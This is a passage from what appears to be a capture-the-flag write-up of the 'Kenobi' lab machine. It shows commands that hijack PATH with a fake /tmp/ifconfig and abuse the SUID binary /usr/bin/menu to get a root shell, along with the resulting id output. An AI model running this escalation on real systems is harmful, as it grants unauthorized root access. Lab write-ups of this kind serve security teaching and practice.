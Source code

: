 Let's create file `ifconfig` contain bash shell execution and save it to folder `/tmp`

```
kenobi@kenobi:~$ echo sh > /tmp/ifconfig
kenobi@kenobi:~$ chmod 777 /tmp/ifconfig
```

Add the folder `/tmp` to the first PATH

```
kenobi@kenobi:~$ export PATH=/tmp/:$PATH
```

Run file `/usr/bin/menu` and execute command `ifconfig` to get root shell

```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
# id            
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```